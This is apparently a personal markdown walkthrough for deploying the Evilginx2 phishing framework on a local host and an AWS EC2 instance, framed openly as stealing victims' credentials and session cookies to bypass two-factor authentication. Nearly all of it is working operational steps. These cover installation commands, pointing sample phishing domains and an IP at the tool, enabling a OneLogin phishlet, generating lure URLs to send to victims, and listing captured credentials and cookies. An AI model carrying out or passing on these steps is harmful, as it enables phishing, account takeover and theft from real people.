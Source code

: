 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.


### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

### Configuring EvilGinx2 on Cloud:

Install and config Evilginx2 inside the instance you have created (Open a new tab, ssh back into the EC2, and complete the steps to install Evilginx)

* Since go is already installed we can eneter the following commands to set up Evilginx2:
            
```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```
            
* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```



* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```


***

### Creating Evilginx2 Lure:

The next task is to created a ```lure```, which would be the phishing URL to send the victims to.

```
: lures create therecap
[04:31:37] [inf] created lure with ID:
1

: lures get-url 1
https://www.therecap.tk/BMvzCci()y     (WHAT IS THIS URL?)
```

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login.

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***

### Run Evilginx on the Cloud:

* We need to choose one of the phishlets that we weant to use and configure it in evilginx:
            
```phishlets hostname <pick one, i like onelogin> <enetr whatever dns we just created>```
            
[ex.] ```phishlets hostname onelogin login.raymondspizzeria.cf```
[output] ```[04:57:58] [inf] disabled phishlet 'onelogin'```
            
* Now we need to enable the phishlet 'onelogin' that we just configured:
            
```phishlets enable onelogin```
            
* Next we need to creates out lures:
            
```lures create onelogin```
            
[output] ```created lure with ID: 0```
            
* Next we are going to want to get our actual url for out phish:
            
```lures get-url 0```

* Now open a new wwbbrowser and test out this new link produced by Evilginx and make sure that it works ! ! !

***

### Tokens and Credentials:

```lures``` -  Shows all current actives lures that are available to be used

```sessions``` - Shows active sessions currently runnings 

```sessions <session_# Here>``` - will display all credentials and cookies captured fromt he session you choose 
